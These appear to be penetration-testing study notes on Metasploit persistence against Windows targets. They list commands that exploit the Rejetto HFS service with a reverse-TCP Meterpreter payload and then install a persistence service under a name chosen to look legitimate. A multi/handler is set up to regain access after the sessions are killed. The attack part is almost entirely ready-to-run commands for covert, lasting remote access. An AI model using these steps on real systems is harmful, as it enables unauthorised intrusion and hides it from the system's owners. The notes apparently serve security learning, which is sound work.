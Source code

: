 ### Persistence
* It consists of techniques to keep access to the target across restarts, changed credentials, and other interruptions that could cut off the access.

* PRACTICAL
* Repeat steps till db_nmap --> Look for the vulnerabilities
* `use exploit/windows/http/rejetto_hfs_exec`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `exploit`
* ***
* **Get access without a vulnerable service as the vulnerable services can be removed from the target taking away its access**
* `search platform:windows persistence`
* `use exploit/windows/local/persistence_service`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set service_name [Legit-looking name to avoid any concerns]`
* `set session [Meterpreter ID]`
* `run`
* Now even if these meterpreter sessions are closed due to some reason, we can set a handler which will keep our access because the persistence we just ran is linked to lhost,i.e, our local IP.
* It will give access everytime the connection  is disrupted
* `sessions -K` --> Kill all the sessions so that we don't have any access
* `use exploit/multi/handler`
* `set lhost`
* `run` --> This will not provide a meterpreter session but a handler to keep the access in case meterpreter is shut  down for some reason.
  
* 
